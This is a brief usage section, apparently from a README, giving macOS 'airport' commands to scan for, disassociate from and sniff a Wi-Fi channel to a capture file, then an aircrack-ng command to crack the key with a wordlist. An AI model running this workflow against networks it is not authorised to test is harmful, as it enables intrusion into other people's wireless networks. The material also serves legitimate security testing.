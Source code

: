 # Usage

```sh
sudo airport -s
```

```sh
sudo airport -z
ifconfig
```

```sh
airport [interface] sniff [channel]
```

```sh
ls /tmp/airportSniff*.cap
```

```sh
aircrack-ng -1 -a 1 -b [BSSID] [capfile] -w [wordlist]
```
